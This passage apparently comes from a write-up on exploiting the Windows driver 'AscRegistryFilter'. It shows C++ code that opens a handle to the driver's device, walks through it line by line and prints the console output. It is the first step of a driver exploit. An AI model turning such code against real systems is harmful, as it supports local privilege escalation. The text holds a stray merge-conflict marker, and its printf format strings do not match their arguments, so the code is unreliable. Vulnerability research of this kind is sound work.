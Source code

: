 9. `return result;`: The function returns the result of the device creation attempt.

the `DriverEntry` function is pivotal for initializing the driver and its associated components. It ensures that the necessary device, symbolic links, and function pointers are set up correctly, enabling the driver to perform its intended tasks. 

> Note: you will be able to find more information about this online i will add some references at the end of this writeup.
{: .prompt-info }


now let's move on writing our exploit code
here is code for communicating the driver using our handle

```c++
// Exploit.c
#include "Windows.h"
#include <Windows.h>
#include <stdio.h>
#include "Header.h"

int exploit() {
  	HANDLE hDevice = CreateFileA("\\\\.\\AscRegistryFilter", GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);

	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("[-] Error To Get Driver Handle\n", GetLastError());
	}
	printf("[+] SuccessFully Obtained Device Driver Handle %p (%x) \n", hDevice);
}

int main()
{
  exploit();
}
```


The main exploit function that attempts to obtain a handle to the device driver named "AscRegistryFilter."

`HANDLE hDevice = CreateFileA("\\\\.\\AscRegistryFilter",GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);` This line uses the CreateFileA function to open a handle to the device driver named "AscRegistryFilter" with read and write access `(GENERIC_READ | GENERIC_WRITE)`. The device name is specified as `\\\\.\\AscRegistryFilter`, and various flags are used to configure the behavior of the file creation.

`if (hDevice == INVALID_HANDLE_VALUE) { ... }` This condition checks if the obtained handle is valid. If the handle is INVALID_HANDLE_VALUE, it means that there was an error in obtaining the handle.

<<<<<<< HEAD
`printf("[+] SuccessFully Obtained Device Driver Handle %p (%x) \n", hDevice)`;
If the handle is valid, this line prints a success message to the console, indicating that the device driver handle was able to successfully obtained.

Let's run our code, Here we can see after running our exploit it successfully obtained handle, great now we proceed further to write our code
```sh
C:\Users\Rashid>exploit.exe
[+] SuccessFully Obtained Device Driver Handle 0xE5
```
